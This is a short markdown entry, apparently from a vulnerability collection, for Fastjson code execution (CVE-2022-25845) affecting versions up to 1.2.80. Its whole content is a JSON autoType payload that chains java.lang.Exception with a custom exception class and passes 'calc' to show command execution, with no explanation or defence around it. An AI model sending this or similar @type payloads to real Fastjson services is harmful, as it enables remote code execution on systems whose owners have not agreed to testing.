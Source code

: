 ## Fastjson代码执行漏洞(CVE-2022-25845)

> Fastjson <= 1.2.80
```
{
  "@type": "java.lang.Exception",
  "@type": "com.github.isafeblue.fastjson.SimpleException",
  "domain": "calc"
}
```
